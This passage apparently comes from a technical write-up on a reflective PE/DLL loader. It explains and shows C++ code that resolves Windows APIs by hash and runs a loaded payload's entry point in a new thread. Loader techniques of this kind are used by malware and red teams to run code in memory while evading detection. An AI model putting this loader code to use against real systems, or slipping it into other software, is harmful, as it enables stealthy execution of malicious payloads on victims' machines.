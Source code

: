 ```c++
}
```

Finally, the entry point of the payload is called. If the payload is a DLL, the `ordToCall` parameter is used, otherwise `NTheader->OptionalHeader.AddressOfEntryPoint` is called. 

```c++
// Target DLL and Entrypoint declare
typeDllEntryProc dllEntryFunc;
// Target PE and Entrypoint declare
typemainCRTStartup PeEntryFunc;

typeCreateThread pCreateThread = (typeCreateThread)GetExportAddress(kernel32, hashCreateThread);
typeWaitForSingleObject pWaitForSingleObject = (typeWaitForSingleObject)GetExportAddress(kernel32, hashWaitForSingleObject);

if (NTheader->OptionalHeader.AddressOfEntryPoint != 0)
{
    // Call entrypoint of DLL
    if (NTheader->FileHeader.Characteristics & IMAGE_FILE_DLL)
    {
        dllEntryFunc = (typeDllEntryProc)((SIZE_T)imageBase + (NTheader->OptionalHeader.AddressOfEntryPoint));
        if (dllEntryFunc)
        {
            (*dllEntryFunc)((HINSTANCE)imageBase, DLL_PROCESS_ATTACH, 0);

            typedef VOID(*TestFunction)();
            TestFunction testFunc = (TestFunction)GetExportAddress(imageBase, ordToCall);

            HANDLE hThread = pCreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)testFunc, 0, NULL, 0);
            pWaitForSingleObject(hThread, INFINITE);
        }
    }
    else
    {
        // Call entrypoint of PE
        PeEntryFunc = (typemainCRTStartup)((SIZE_T)imageBase + (NTheader->OptionalHeader.AddressOfEntryPoint));
        if (PeEntryFunc)
        {
            HANDLE hThread = pCreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)PeEntryFunc, 0, NULL, 0);
        
            // Wait for the loader to finish executing
            pWaitForSingleObject(hThread, INFINITE);

            //(*PeEntryFunc)();
        }
    }
}
```
